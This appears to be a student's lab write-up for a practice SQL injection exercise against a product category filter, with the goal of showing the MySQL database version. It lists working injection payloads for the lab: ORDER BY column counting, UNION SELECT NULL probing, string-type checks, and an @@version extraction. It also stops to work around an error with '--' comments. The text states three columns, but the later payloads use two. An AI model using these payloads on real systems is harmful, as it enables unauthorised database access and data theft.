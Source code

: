 # Fifth Lab: SQL Injection

Lab - 05 : SQL injection attack, querying the database type and version on MySQL and Microsoft 

SQL Injection :  Product category filter

End Goal : Display the database version string

Analysis : 

1. SQl injection issues using ‘ → True
2. To output data from the database 
    1. Determine the number of columns
        
        ```
        Payload -> ' order by 1--
        ```
        
        ![vmplayer_hMUSuHVCHK.png](Fifth%20Lab%20SQL%20Injection%2021a3c5d54c7680b3ab85d05e4aafbefc/vmplayer_hMUSuHVCHK.png)
        
        For some reason, the payload gave this result.  I reasearched and found out that sometimes in 
        
        ```
        Payload -> ' order by 1--
        ```
        
        It does not like the (- -) characters which may give the internal server error. So, use this payload which does the same thing too, it comments out too like the ( - - ). 
        
        ```
        Payload -> ' order by 1#
        ```
        
        ![vmplayer_uNMslGoiPl.png](Fifth%20Lab%20SQL%20Injection%2021a3c5d54c7680b3ab85d05e4aafbefc/vmplayer_uNMslGoiPl.png)
        
        Now this works….. 😁
        
        Now lets increase the number and find out the number of columns. 
        
        No of columns = 3
        
        ### Note: Another way to find out the number of columns
        
        - way
            
            ```
            Payload -> ' UNION SELECT NULL, NULL#
            ```
            
            Keep sending the payload by increasing a null until u get the internal server error
            
    2. Determine the database type of column
        
        ```
        Payload -> ' UNION SELECT 'abc', 'def'#
        ```
        
        If this does not return any error then, both are string types.
        
    3. Determining the version of the database
        
        ```
        Payload -> ' UNION SELECT @@version, NULL#
        ```
        
        ![vmplayer_0K7KaR9LFk.png](Fifth%20Lab%20SQL%20Injection%2021a3c5d54c7680b3ab85d05e4aafbefc/vmplayer_0K7KaR9LFk.png)